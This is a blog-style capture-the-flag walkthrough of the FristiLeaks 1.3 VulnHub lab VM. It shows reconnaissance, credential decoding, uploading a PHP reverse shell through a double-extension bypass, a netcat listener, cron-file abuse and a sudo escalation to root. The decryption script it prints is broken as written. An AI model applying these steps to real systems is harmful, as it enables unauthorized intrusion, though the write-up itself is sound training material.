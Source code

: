 ```yaml
---
layout: post
title:  "FristiLeaks 1.3"
date:   2016-10-08 23:50:00
categories:
    - hacking
tags:
    - hacking
    - cyber security
    - FristiLeaks
authors:
    - Sudhanshu Passi
---
```


Vulnhub problem page: https://www.vulnhub.com/entry/fristileaks-13,133/

My setup:

	Kali 2.0 on virtualbox		:192.168.2.7
	
	fristileaks on virtualbox	:192.168.2.8
	
	Both VMs in Bridged mode
	
	VMware users will need to manually edit the VM's MAC address to: 08:00:27:A5:A6:76 
	
### Reconnaissance

I started off with a nmap scan on the victim

~~~

nmap -A -v 192.168.2.8

~~~

It revealed that just port 80 was open.

So I opened up the browser and visited 192.168.2.8 and found an image.

Nothing useful in the image or the source code.

Opened up the robots.txt file

~~~
http://192.168.2.8/robots.txt
~~~

It showed 3 directories:

~~~
/cola
/sisi
/beer
~~~

Opening any of the paths will bring us to a page displaying Obi-Wan’s image. Nothing in the source code too.

There needed to be a hidden directory. By looking at the directories of cola, sisi and beer, you could have guessed there can be a directory named fristi, as it is a drink too.
I tried 

~~~
http://192.168.2.8/fristi/
~~~

and it led me to a login page.

Observing the source code gave me 3 things:

	Name of a possible user: eezeepz
	
	A 64bit encoded image
	
	A 64bit encoded comment

It was evident that the 64bit comment needed to be decoded with a 64bit image decoder.

Decoding the cipher gave a image

Now I used these things as the username and the password:

~~~
Username:	eezeepz
Password:	keKkeKKeKKeKkEkkEk
~~~

This led us to a image uploader page.

I straightaway tried uploading a reverse php shell 

~~~
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

but the site blocked it.

Its a common mistake to not configure the server properly and allow shell.php.png to get uploaded.

I uploaded the shell and fired up the netcat

~~~
nc -v -n -l -p 1234
~~~

Then I ran the uploaded shell

~~~
http://192.168.2.8/fristi/uploads/shell.php.png
~~~

Running the id command revealed that I had the privileges of a user named apache.

Now traversing from directory to directory I reached

~~~
/home/eezeepz
~~~

There was a notes.txt

~~~
cat notes.txt

Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
~~~

Nice. Now we can run commands from the /tmp/runthis file with admin privileges.

### Gaining access

I echoed this command into the runthis file to get admin rights

~~~
echo "/home/admin/chmod -R 777 /home/admin/" > /tmp/runthis

cd /home/admin
~~~

I found 3 interesting files here:

~~~
cat whoisyourgodnow.txt

=RFn0AKnlMHMPIzpyuTI0ITG

cat cryptedpass.txt

mVGZ3O3omkJLmy2pcuTq

cat cryptpass.py

#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
~~~

It was evident that the two strings were encoded by cryptpass.py

So I wrote a script reversing that.

~~~
cat decrypt.py

import base64,codecs,sys

def decodeString(str):
	result=codecs.decode(str[::-1], 'rot13')
    return base64.b64decode(result)

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
~~~

~~~
python decrypt.py mVGZ3O3omkJLmy2pcuTq

thisisalsopw123

python decrypt.py =RFn0AKnlMHMPIzpyuTI0ITG

LetThereBeFristi!
~~~

These might be the passwords to root or any other user. I needed a tty/pty

The best way to spawn a tty:

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

Then 

~~~
su fristigod
password:LetThereBeFristi!
~~~

Then I went back to a directory that was blocked to me but was open to fristigod

~~~
/var/fristigod
~~~

It had a file named .bash_history

Opening that revealed the nature of commands executed in that folder.

There was another folder named .secret_admin_stuff

In that was a executable doCom

Turns out doCom can only be run by root.

But according to .bash_history, doCom was run by a user names fristi.

Thus

~~~
sudo -u fristi ./doCom
~~~

It revealed that it was a command line interface to run any command as root!

Thus

~~~
sudo -u fristi ./doCom /bin/bash

id

uid=0(root) gid=100(users) groups=100(users),502(fristigod)
~~~

We have obtained root

Lets go to the root dir

~~~
cd /root/
~~~

There we found a file  fristileaks_secrets.txt, with a flag: Y0u_kn0w_y0u_l0ve_fr1st1

Thus the system was pawned and the flag was received. :)